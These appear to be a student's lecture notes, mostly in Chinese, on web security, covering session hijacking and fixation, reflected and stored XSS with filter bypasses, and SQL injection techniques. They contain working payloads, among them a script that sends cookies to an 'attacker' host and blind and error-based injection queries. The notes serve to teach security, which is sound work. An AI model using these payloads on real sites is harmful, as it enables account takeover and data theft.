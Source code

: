 # Web Security
Slides:
 * [Web_Security](Web Security_1120.pdf)

## Why Cookie/Session?
HTTP 是stateless protocol, 你要怎麼知道user 已經登入你的網站？By Cookie/Session!
 * Server端：發行session_id給client，並建立session_id entry, 以後用這個session_id來辨認使用者是否已經成功登入
 * Client端：用帳號密碼登入後，拿到server傳來的cookie(session_id)，存起來，以後可以直接用cookie和server做身份驗證，而不用整個做帳號密碼驗證。

### Hacking session_id
 * bruteforce
 * session hijacking：XSS傳給attacker，sniff封包
 * session fixation：如果server可以接受任何session_id(from query string)且沒有其他安全機制的話，那attacker可以傳送`http://unsafe.haha.com/session_id=some_fixed_sid`給victim，如果victim點開連結，成功登入後，server端會把some_fixed_sid 當成valid login-session (如果沒有衝突)存起來。那麼attacker只要 打開`http://unsafe.haha.com/session_id=some_fixed_sid`就能看見victom 帳戶內容了。

## XSS
Cross-Site Script: 你可以讓Javascript code在其他user 的瀏覽器上執行，可以下載malicious file, 偷cookie,...
 * Reflected XSS: 當網站把收到的**user input直接include 到網頁**裡，像這樣：
```php
<input type="text" name="mail" value="<?php echo $_GET['m']; >">
```
XSS攻擊：`"><script>alert("XSS")</script>`
或載入程式碼並執行：
```js
<script src="http://www.evilsite.com/xss.js"></script>
```
 * persistent XSS: 當網站不只直接讀入**user input**，還把user input存到persisten storage(ex: 資料庫)裡，然後讀出來呈現在網頁上。那麼狀況更糟，注入javascipt code後，任何瀏覽那個網頁的user都會被攻擊。例如：一個blogger網站，會存入任何你給的blog entry 然後show在網頁上，如果你想要都任何瀏覽過你blog的人的session_id，可以這樣做：
```js
<script>window.location='http://attacker/?cookie='+document.cookie</script>
```

### XSS Defense/Passby
 * 過濾`script`：Passby - `<ScriPt></scRiPt>`, `<sccriptript></sccriptript>`
 * 過濾`"`, `'`：Passby - `<script>alert(String.fromCharCode(...))</script>`
 * 設定HttpOnly(禁止用Javascript讀出cookie)：Passby - 很多瀏覽器沒有預設

## SQL Injection
 * 可以看到錯誤訊息：
  * Union-Based：通常和Select 一起用，Union上相同欄位的資料。Ex: `SELECT *FROM users WHERE id=1`：
```sql
SELECT FROM users WHERE id=1 UNION SELECT 1,2,3,4,5
```
```sql
-- 猜欄位
SELECT FROM users WHERE id=1 ORDER BY 5;
```
如果猜中欄位數會把`id=1`結果和`1,2,3,4,5`一起印出來，之後將`1,2,3,4,5`可以替換成其他資訊
```sql
version(),  user() database()
-- 資料庫schema
SELECT schema_name FROM informtion_schema.schema
-- Table
SELECT table_name FROM information_schema.tables
-- Column
SELECT column_name FROM information_schema.columns
```
  * Error-Based
```sql
-- 沒很懂，but it works..
SELECT * FROM users WHERE id=1 and (select 1 from(select count(*),concat((select (select concat(0x27,user(),0x27)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) = 1;
```
`ERROR 1062 (23000): Duplicate entry ''root@localhost'1' for key 'group_key'`
```sql
-- ExtractValue:
SELECT * FROM users WHERE id=1 AND extractvalue(rand(), (SELECT user()))=1
```
`ERROR 1105 (HY000): XPATH syntax error: '@localhost'`
 * 只能看到成功或失敗
  * Boolean-Based
```sql
-- 猜注入口是接受數字還是字串
SELECT * FROM users WHERE id=1 AND 1=1
-- 如果是數字就更方便了
-- 猜user1 第一個字母
SELECT * FROM users WHERE id=1 AND substr((SELECT name FROM users LIMIT 0,1), 1, 1)='a'
-- 用Ascii 猜字母
SELECT * FROM users WHERE id=1 AND ascii(substr((SELECT name FROM users LIMIT 0,1), 1, 1)) < 64
```
  * Time-Based
```sql
SELECT * FROM users WHERE id=1 AND (sleep(2))
-- if it works, then combine with if()
SELECT * FROM users WHERE id=1 AND if((substr((SELECT name FROM users LIMIT 0,1), 1, 1)='a'), sleep(2), 1)
```
## Today's Vulnerable
 * [alert(1) to win](http://escape.alf.nu/)
 * [prompt(1) to win](http://prompt.ml/0)
 * [XSS game](https://xss-game.appspot.com/)
